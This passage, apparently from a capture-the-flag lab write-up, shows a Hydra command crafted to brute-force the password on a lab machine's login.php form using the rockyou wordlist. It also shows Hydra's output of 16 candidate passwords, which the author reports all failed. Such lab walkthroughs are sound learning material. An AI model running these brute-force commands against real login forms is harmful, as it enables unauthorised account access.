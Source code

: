 ![Login.php](images/03-login.php.png)


---
## BurpSuite and Hydra again
Used Burpsuite to try and craft a **hydra** command to brute force the password into **login.php**:
```
hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt 10.10.10.48 http-post-form "/login.php/:user=^USER^&pass=^PASS^:Invalid username or password:H=Cookie: security=low; PHPSESSID=fudbk98c25mnpjj369s5elo522"
```

But gave 16 possible passwords and non worked
```
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-03-12 10:47:11
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.10.48:80/login.php/:user=^USER^&pass=^PASS^:Invalid username or password:H=Cookie: security=low; PHPSESSID=fudbk98c25mnpjj369s5elo522
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: 123456
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: 123456789
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: 12345
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: password
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: iloveyou
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: 1234567
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: rockyou
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: 12345678
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: princess
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: abc123
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: nicole
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: daniel
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: babygirl
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: monkey
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: lovely
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: jessica
```